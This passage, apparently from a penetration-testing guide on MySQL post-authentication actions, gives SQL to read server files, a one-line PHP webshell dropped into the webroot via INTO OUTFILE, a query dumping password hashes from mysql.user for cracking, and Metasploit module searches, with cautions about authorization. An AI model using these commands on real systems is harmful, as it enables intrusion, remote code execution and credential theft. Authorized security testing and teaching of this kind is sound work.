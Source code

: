 What to look for
- `SHOW GRANTS` reveals capabilities: `FILE` privilege allows writing files (see below). `SELECT` on `mysql.*` requires elevated rights.
- Presence of app tables (users, credentials, config) often yields further credentials or secrets.

### C. File read / write vectors (requires privileges)

If the DB user has the `FILE` privilege, you may be able to read server files (via `LOAD_FILE`) or write files to the filesystem (`SELECT ... INTO OUTFILE`). These can be used to retrieve configuration files or drop webshells (only with explicit permission).

Read a file (example):

```sql
-- Read /etc/hosts (if permissions allow)
SELECT LOAD_FILE('/etc/hosts');
```

Write a simple PHP webshell into a webroot (REQUIRES FILE privilege and correct path; dangerous — only when allowed):

```sql
-- Example (dangerous): write a PHP file to webroot
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php';
```

Notes and cautions
- `INTO OUTFILE` path must be writable by the MySQL server process and not existing already.
- Many systems secure MySQL and disallow FILE or restrict file paths; test carefully and document everything.

### D. Extracting password hashes and pivoting

If you have `SELECT` access to `mysql.user` (rare for low-privileged accounts), you can extract password hashes:

```sql
SELECT User, Host, authentication_string FROM mysql.user;
```

If you obtain hashes, you may attempt cracking offline (e.g., `hashcat`) — maintain chain-of-custody and follow policy.

### E. Using Metasploit for post-auth actions beyond SQL

Metasploit may have additional modules that use credentials to perform follow-up tasks (search for `auxiliary/admin/mysql` or `post/mysql`):

```text
msf6 > search mysql | grep -i post
# Example: post/mysql/manage or other post-exploitation helpers (module names vary)

msf6 > info <module_name>
# read description and required options before running
```

### F. Evidence handling and reporting
